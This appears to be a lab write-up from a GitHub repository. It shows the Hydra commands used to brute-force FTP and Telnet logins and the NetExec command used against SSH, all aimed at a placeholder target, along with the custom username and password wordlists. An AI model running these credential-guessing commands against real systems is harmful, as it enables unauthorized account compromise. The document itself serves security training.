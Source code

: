 # 🔐 Task 2: Brute Force Attacks

## ✅ Preparation

Before initiating brute-force attacks, prepare the required wordlists:

- `userlist.txt` – A list of potential usernames
- `passlist.txt` – A list of potential passwords

### 🗂️ Wordlist Options

You can choose to:

- Use built-in wordlists provided by Kali Linux (e.g., `/usr/share/wordlists/rockyou.txt`)
- Or create simple custom wordlists for testing:

```bash
# Create a username list
echo -e "admin\nmsfadmin\nanonymous\nuser\ntest" > userlist.txt

# Create a password list
echo -e "1234\nmsfadmin\nftp123\nadmin\npassword" > passlist.txt
```

## 🔹 2.1 FTP Brute Force with Hydra

We used **Hydra** to perform a brute-force attack on the FTP service running on the target.

### 🔧 Command Used:
```bash
hydra -L userlist.txt -P passlist.txt ftp://<TARGET_IP> -V
```
![Screenshot 2025-04-17 213621](https://github.com/user-attachments/assets/a09f7343-70f4-4e46-9bfd-eb8651ab1879)
---

## 🔹 2.2 Telnet Brute Force with Hydra
Command to attack Telnet:
```bash
hydra -L userlist.txt -P passlist.txt telnet://<TARGET_IP> -V
```
![Screenshot 2025-04-17 213857](https://github.com/user-attachments/assets/45a06840-0981-4764-a5f7-b0749953d013)
---

## 🔹 2.3 SSH Brute Force with NetExec
Command to attack SSH:
```bash
nxc ssh <TARGET_IP> -u userlist.txt -p passlist.txt
```
![Screenshot 2025-04-17 214121](https://github.com/user-attachments/assets/aa80c2d9-b489-479f-a9d1-299c67f7108a)

---